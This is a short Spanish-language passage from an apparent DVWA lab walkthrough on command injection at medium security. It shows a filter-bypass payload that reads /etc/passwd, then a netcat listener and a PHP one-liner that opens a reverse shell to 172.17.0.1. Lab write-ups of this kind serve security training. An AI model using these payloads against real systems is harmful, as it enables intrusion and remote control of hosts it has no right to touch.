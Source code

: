 ### Security: medium
Con el nivel de seguridad medio seleccionado, la única protección es que los badchars "&&" y ";" serán eliminados de nuestra entrada, pero podemos interrumpir el comando con muchos otros:

```
&cat /etc/passwd #
```

![Command injection](https://github.com/sapellaniz/dvwa/blob/master/img/command-injection-02.png)

Como atacantes, lo que más nos interesa en este punto es obtener una shell interactiva, para tener una mayor libertad y poder causar un mayor impacto:

```
# En el atacante:
sudo rlwrap nc -nvlp 443
# En DVWA
php -r '$sock=fsockopen("172.17.0.1",443);exec("/bin/sh -i <&3 >&3 2>&3");'
```
